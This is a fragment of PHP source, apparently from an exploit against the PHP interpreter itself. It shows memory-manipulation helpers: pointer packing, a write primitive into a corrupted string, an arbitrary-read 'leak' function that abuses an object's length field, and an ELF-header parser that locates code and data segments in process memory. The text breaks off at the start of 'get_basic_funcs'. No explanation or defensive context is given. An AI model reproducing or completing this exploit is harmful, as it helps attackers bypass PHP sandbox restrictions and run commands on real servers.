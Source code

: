 ```php
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
```